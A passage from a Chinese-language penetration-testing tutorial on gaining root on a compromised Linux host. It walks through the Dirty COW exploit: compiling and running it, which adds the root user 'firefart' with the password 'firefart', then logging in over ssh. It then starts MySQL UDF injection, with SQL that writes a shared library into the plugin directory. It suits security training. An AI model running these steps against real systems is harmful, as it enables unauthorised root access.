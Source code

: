 可以在 exploit DB 上看到这个漏洞代码[`www.exploit-db.com/exploits/40839/`](https://www.exploit-db.com/exploits/40839/)。这个特定的漏洞利用程序向`etc/passwd`添加了一个具有根权限的新用户：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/d6238552-2c9f-40e2-8261-4c1a6da7fb62.png)

我们下载漏洞并将其保存在服务器的`/tmp`目录中。它是用 C 语言编写的，所以我们可以使用服务器上的`gcc`编译它，使用以下命令：

```
gcc –pthread dirty.c –o <outputname> -lcrypt
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/eeea674d-3c1d-42ff-9815-f2baa6145502.png)

我们使用以下命令`chmod`（更改文件权限）文件：

```
chmod +x dirty
```

然后我们使用`./dirty`运行它。我们将失去我们的反向连接访问权限，但如果一切顺利，我们现在可以使用用户名`firefart`和密码`firefart`作为根用户`ssh`到机器上。

我们使用以下命令尝试`ssh`：

```
ssh –l firefart <IP Address>
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/f5371878-fc1d-4a48-b4d2-925e4c4a0021.png)

现在，dirty cow 有点不稳定，但我们可以使用这个解决方法来使其稳定：

```
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```

让我们执行命令 ID；我们将看到我们现在是系统的根用户！

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/8eb13a53-9176-429a-9cf2-217c4ec14cb3.png)

现在让我们看另一种实现根权限的方法。在这种情况下，我们将假设我们在系统上有一个 shell，并且我们运行的枚举脚本向我们显示 MySQL 进程正在作为系统根用户运行。

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/21e973d7-e52a-4aef-8722-b3765333bfc7.png)

MySQL 有一个名为**用户定义函数**（**UDF**）的功能；让我们看一种通过 UDF 注入获得根权限的方法。现在我们有两个选择：要么在受损系统上下载代码并进行编译，要么从[`github.com/mysqludf/lib_mysqludf_sys/blob/master/lib_mysqludf_sys.so`](https://github.com/mysqludf/lib_mysqludf_sys/blob/master/lib_mysqludf_sys.so)下载预编译代码。

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/9d3ff962-4dc2-4858-b2a6-1caa42393401.png)

一旦它被下载，我们就登录到数据库。通常，人们会将默认的 root 密码留空；或者，我们可以从运行在服务器上的 web 应用程序的配置文件中获取一个。

现在，我们创建一个表，并使用这些命令将我们的文件插入到表中：

```
create table <table name> (hello blob);
insert into <table name> values (load_file('/path/to/mysql.so'));
select * from <table name> into dumpfile '/usr/lib/mysql/plugin/mysqludf.so';
```
